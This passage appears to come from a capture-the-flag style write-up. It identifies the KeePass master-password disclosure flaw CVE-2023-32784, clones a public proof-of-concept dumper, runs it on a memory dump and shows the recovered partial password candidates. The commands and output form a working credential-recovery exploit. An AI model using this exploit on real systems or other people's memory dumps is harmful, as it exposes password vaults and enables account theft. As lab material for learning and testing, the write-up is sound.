 Searching for KeePass vulnerabilities that allow us to extract data, we find CVE-2023-32784. The CVE description says:

In KeePass 2.x before 2.54, it is possible to recover the cleartext master password from a memory dump, even when a workspace is locked or no longer running. The memory dump can be a KeePass process dump, swap file (pagefile.sys), hibernation file (hiberfil.sys), or RAM dump of the entire system. The first character cannot be recovered. In 2.54, there is different API usage and/or random string insertion for mitigation.

This is exactly what we need! I'm going to find a POC for this exploit and try it out.
First, we clone a POC to our machine:

```
$ git clone https://github.com/vdohney/keepass-password-dumper.git
```

We also copy the dump file to our machine. Now, we're going to run the exploit:

```
$ cd keepass-password-dumper
$ dotnet run ../KeePassDumpFull.dmp
Found: ●●d
Found: ●●d
Found: ●●d

<snip>

Found: ●A
Found: ●I
Found: ●:
Found: ●=
Found: ●_
Found: ●c
Found: ●M

Password candidates (character positions):
Unknown characters are displayed as "●"
1.:	●
2.:	,, l, `, -, ', ], A, I, :, =, _, c, M,
3.:	d,
4.:	g,
5.:	r,
6.:	●
7.:	d,
8.:	 ,
9.:	m,
10.:	e,
11.:	d,
12.:	 ,
13.:	f,
14.:	l,
15.:	●
16.:	d,
17.:	e,
Combined: ●{,, l, `, -, ', ], A, I, :, =, _, c, M}dgr●d med fl●de
```
